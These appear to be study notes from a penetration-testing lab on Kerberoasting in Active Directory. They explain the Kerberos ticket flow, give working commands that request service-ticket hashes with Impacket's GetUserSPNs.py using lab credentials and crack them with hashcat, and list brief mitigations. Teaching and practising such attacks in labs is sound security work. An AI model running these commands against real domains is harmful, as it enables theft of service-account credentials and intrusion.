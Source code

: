 4. Kerberoasting

Domain Controller (DC) also known as a 'key distribution centre' (KDC)

User will need to authenticate to the DC

When they do that
1. user will request a TGT (Ticket-Granting-Ticket) and provide/supply the NTLM hash (i.e. a valid user and password)
2. DC receives request and returns a TGT encrypted with a krbtgt (kerberos tgt) hash

Say we have an application server (could be SQL, could be AV, etc.), a service that we would like to access.
This service will have an SPN (Service Principle Name)

To access this service we need to first request a TGS (Ticket-Granting-Service ticket).

3. We present our TGT to the KDC and request a TGS
4. The server knows the server account hash and will encrypt that and sent it back to us 

> KDC does not know if we have access to the server or not
> It will provide to us the TGS with the server account hash
> This is where Kerberoasting starts

WE can get the hash, try to decrypt it or relay it!!

For us to connect to server:

5. Present TGS to the application server 
6. The server decrypts it using its application hash

![e299a78e1d7adfbee3173994df7b05e4.png](../../_resources/59c52423c6e843b0a0eefe6c506e2c68.png)

## The attack

Will use another Impacket module
```
sudo GetUserSPNs.py marvel.local/fcastle:Password1 -dc-ip 10.10.10.6 -request
```

![1b970e3837f81b0cbf94608574e7a453.png](../../_resources/9820246638ca4b4ba1361a152880ff9c.png)

We get the kbr5tgs hash for the SQL Service we set up before
copy and paste into file

Find which module to use
```
hashcat --help | grep Kerberos
```

![87511b30aef2a0a3eff5f282f2be3eba.png](../../_resources/6a06ced7241a4443b60c75363df6f74e.png)

We will use the Kerberos 5 TGS-REP, etype 23 module (13100)

```
sudo hashcat -m 13100 hashes.txt rockyou.txt -O
```

Will find SQL Service domain password (MYpass123!)

![dcbd458522b3124bfe74a0785f538aa4.png](../../_resources/d8d00fed67f04ec2abc8da612c84c766.png)

Which we knew already from our previous attacks (eg. ntlmxrelay.py)

Once you get a credential at all, you can try Kerberoasting

## Kerberoasting Mitigation

We are abusing a feature so there is nothing to defent against it other than:
- strong passwords (not just long)
- least privilege
	- do NOT make domain accounts domain admins
	- do NOT make service accounts administrators


